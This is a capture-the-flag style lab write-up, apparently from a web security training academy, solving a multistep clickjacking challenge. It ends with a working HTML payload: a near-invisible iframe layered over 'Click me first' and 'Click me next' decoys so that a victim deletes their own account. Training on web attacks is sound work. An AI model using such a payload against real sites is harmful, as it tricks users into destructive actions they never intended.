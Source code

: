 # Multistep clickjacking
# Objective
This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: `wiener:peter` 

# Solution
## Analysis
Website has multi step Delete account functionality.

|![](Images/image-14.png)|
|:--:| 
| *Multi step delete account functionality* |

## Exploitation
|![](Images/image-15.png)|
|:--:|
| *Alligining "Test me first" button* |
|![](Images/image-16.png)|
| *Alligining "Test me next" button* |
|![](Images/image-17.png)|
| *Final payload with opacity set to 0.001* |

Final payload:
```html
<style>
	iframe {
		position:relative;
		width: 1000;
		height: 1000;
		opacity: 0.001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top: 520;
		left: 60;
		z-index: 1;
	}
   .secondClick {
		top: 320;
		left: 210;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a67004e044445e2816e931b009a0029.web-security-academy.net/my-account"></iframe>
```